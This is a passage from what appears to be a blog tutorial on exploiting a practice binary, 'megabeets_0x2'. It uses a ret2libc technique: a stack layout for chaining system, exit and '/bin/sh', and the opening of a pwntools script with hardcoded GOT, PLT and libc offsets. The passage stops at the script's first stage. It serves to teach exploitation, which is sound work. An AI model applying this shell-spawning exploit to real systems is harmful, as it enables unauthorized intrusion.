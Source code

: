                     <pre class="width-set:true width:160 left-set:true right-set:true toolbar:2 toolbar-hide:false toolbar-delay:false show-title:false show-lang:2 marking:false ranges:false nums:false nums-toggle:false wrap-toggle:false show-plain:3 lang:diff decode:true">+---------------------+
|       Stage 2       |
+---------------------+
| padding (140 bytes) |
| system@libc         |
| exit@libc           |
| /bin/sh address     |
+---------------------+</pre>
                    
                    <p>
                      Remember that we returned to the entrypoint last time? That means that <code>scanf</code> is waiting for our input again. Now all we need to do is to chain these calls and send it to the program.
                    </p>
                    
                    <p>
                      Here&#8217;s the final script. As I mentioned earlier, you need to replace the offsets to match your version of <em>libc.</em>
                    </p>
                    
                    <pre class="toolbar:2 marking:false ranges:false nums:false nums-toggle:false wrap-toggle:false show-plain:3 lang:python decode:true">from pwn import *

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

# Offsets
offset_puts = 0x00062710 
offset_system = 0x0003c060 
offset_exit = 0x0002f1b0
offset_str_bin_sh = 0x167768 

# context.log_level = "debug"

def main():
    
    # open process
    p = process("./megabeets_0x2")

    # Stage 1
    